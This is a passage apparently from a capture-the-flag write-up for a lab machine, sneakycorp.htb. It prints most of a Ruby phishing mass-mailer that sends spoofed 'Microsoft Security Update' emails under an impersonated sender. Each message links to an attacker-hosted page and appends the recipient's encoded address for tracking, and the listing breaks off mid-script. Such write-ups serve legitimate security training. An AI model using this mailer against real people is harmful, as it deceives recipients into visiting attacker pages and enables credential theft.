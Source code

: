 Now, using a simple sendmail.rb script, we can send out mass emails (after editing the script slightly):

https://github.com/zeknox/scripts/tree/master/email

sendmail.rb:
```
#!/usr/bin/env ruby
# This script takes a .txt file as an argument. It will iterate through each emailaddress
# in the file and send an email to each target
# Authors: zeknox & R3dy
##########################################################################
require 'net/smtp'
require 'base64'

username = 		''
password = 		''
from = 			'greg.olson@issds.com'
display_from =	'Greg Olson'
subject = 		'Microsoft Security Update'
date =			'Thursday, January 18, 2013'
url = 			'http://10.10.14.36/niceone.php'
smtp =			'sneakycorp.htb'
smtpout =		'sneakycorp.htb'
port =			'25'
message = []	

def sendemail(username, password, from, message, email, port, smtpout, smtp)
	# code to send email
	begin
		Net::SMTP.start("#{smtpout}", "#{port}", "#{smtp}") do |smtp|
			smtp.send_message message, "#{from}", email.chomp
		end
		puts "\tSent to: #{email}"
	rescue => e
		puts "\tIssues Sending to: #{email}\r\n#{e.class}\r\n#{e}"
	end
end

unless ARGV.length == 2
	puts "./sendmail.rb <email-addys.txt> <email_message.txt>\n"
	exit!
else
	emails = File.open(ARGV[0], 'r')
end

count = 1
puts "Sending Emails:"
emails.each_line do |email|
	message = []
	# base64 encode email address
	encode = "#{Base64.encode64("#{email}")}"

	email_message = File.open(ARGV[1], 'r')
	email_message.each_line do |line|
		if line =~ /\#{url}/
			message << line.gsub(/\#{url}/, "#{url}#{encode.chomp}")
		elsif line =~ /\#{to}/
			message << line.gsub(/\#{to}/, "#{email.chomp}")
		elsif line =~ /\#{from}/ and line =~ /\#{display_from}/
			message << line.gsub(/\#{display_from} <\#{from}>/, "#{display_from} <#{from}>")
		elsif line =~ /\#{display_from}/ and not line =~ /\#{from}/
			message << line.gsub(/\#{display_from}/, "#{display_from}")
		elsif line =~ /\#{subject}/
			message << line.gsub(/\#{subject}/, "#{subject}")
```